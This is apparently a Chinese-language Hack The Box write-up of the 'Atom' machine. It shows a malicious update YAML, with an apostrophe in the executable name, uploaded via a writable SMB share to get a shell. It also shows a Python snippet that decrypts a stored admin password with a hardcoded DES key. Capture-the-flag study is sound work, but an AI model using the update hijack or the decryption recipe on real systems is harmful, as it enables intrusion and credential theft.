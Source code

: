 +++
title = '0X033 Atom'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'HTB'
+++



# 端口扫描

![](/htb_img/WEBRESOURCE8b12b40668a685aaf03708f82a1327faimage.png)

![](/htb_img/WEBRESOURCE838d3d2c7c7be70a575948e081b49644image.png)

![](/htb_img/WEBRESOURCEf47224e81e57676fb1dc66b138668843image.png)

# 获取立足点

从端口开放情况来看，值得关注的点有：smb、redis、5985、80、443

先看smb:

![](/htb_img/WEBRESOURCEf0126d08eed606a7b2849f6baa4b2eb1image.png)

这里的内容，似乎在说，把程序放在这个目录，会自动运行：

![](/htb_img/WEBRESOURCE83261bfc23c13a3b3e76b0efea015b67image.png)

创建者Pages

![](/htb_img/WEBRESOURCEa81fdd7469055ca0d7cfaa9467a380b7image.png)

看看redis呢：

好像不行，没有未授权：

![](/htb_img/WEBRESOURCE8fc7da8c0119ea9131f9d3f0407ce0cfimage.png)

web方面，443和80页面一样：

发现文件，下载：

![](/htb_img/WEBRESOURCE4dda52a834bc2cb9dab0160b6a02b2b1image.png)

smb确实有写入权限：

![](/htb_img/WEBRESOURCE7924124077b02f05625e98a0b4b4984bimage.png)

程序看起来没有什么特别的，逆向看看把：

好像没逆向出来，有点尴尬：

![](/htb_img/WEBRESOURCE489df158a57e08c89bb85f55c6b06d6bimage.png)

抓包看看了：

发现dns查询，添加hosts抓取tun0：

![](/htb_img/WEBRESOURCE06ea8bc4271baa0819b7b662b66ad474image.png)

然后大概了解一下，程序通过访问目标上的yml文件，然后根据yml文件的内容，来尝试更新软件，然后结合刚刚PDF的内容，我们可以上传一个yml文件，指向我们的exe程序，就可以尝试getshell了：

计算一下值：

sha512sum "8'889.exe" | cut -d ' ' -f1 | xxd -r -p | base64 -w0

jJ7y5xvMF62HF3VmIQOFMpTogFyyYLl04zditACTK5L0j9CMQRHaC7OuI0mWeRI09tE0zOMTKienCmBNJqn+fA==

![](/htb_img/WEBRESOURCEc521913fef8b1266a49fa85f4714dfd3image.png)

yml文件内容如下：

```
version: 1.0.1
files:
 - url: 8'889.exe
   sha512: jJ7y5xvMF62HF3VmIQOFMpTogFyyYLl04zditACTK5L0j9CMQRHaC7OuI0mWeRI09tE0zOMTKienCmBNJqn+fA==
   size: 73802
path: 8'889.exe
sha512: jJ7y5xvMF62HF3VmIQOFMpTogFyyYLl04zditACTK5L0j9CMQRHaC7OuI0mWeRI09tE0zOMTKienCmBNJqn+fA==
```

上传上去：

![](/htb_img/WEBRESOURCE26c3e9d4e1f57f30832dbd954920d0b7image.png)

运行程序，稍等一会儿：

![](/htb_img/WEBRESOURCEc44dd7574a28995b6aca1df949a99887image.png)

# 提权

看起来不像是很容易提权的样子：

![](/htb_img/WEBRESOURCEd87c5953c66172c492b88382609a47c1image.png)

winpess也没有什么有效的内容：

![](/htb_img/WEBRESOURCE3dacc565a5b978b60081a72f9966c6e7image.png)

只能接着信息收集了：

读取redis密码：

![](/htb_img/WEBRESOURCE9371a9290cdc932383fd611ed2f26509image.png)

可以登录：

![](/htb_img/WEBRESOURCEe23718bcc883ec29c5825c7d37df5453image.png)

发现密码，这是[https://www.exploit-db.com/exploits/49409](https://www.exploit-db.com/exploits/49409)进行解密：

![](/htb_img/WEBRESOURCE259b26d1e0869ce372c25a66d3afca33image.png)

[kidvscat_admin_@123](http://kidvscat_admin_@123)

```
>>> import base64
>>> from des import *
>>> hash = base64.b64decode('Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi'.encode('utf-8'))
>>> key = DesKey(b"7ly6UznJ")
>>> print(key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8'))
kidvscat_admin_@123
```

![](/htb_img/WEBRESOURCEfb544a44d67f6d0fb952805d848be0a7image.png)

![](/htb_img/WEBRESOURCEdf522e2408c893059524363c09e1a52eimage.png)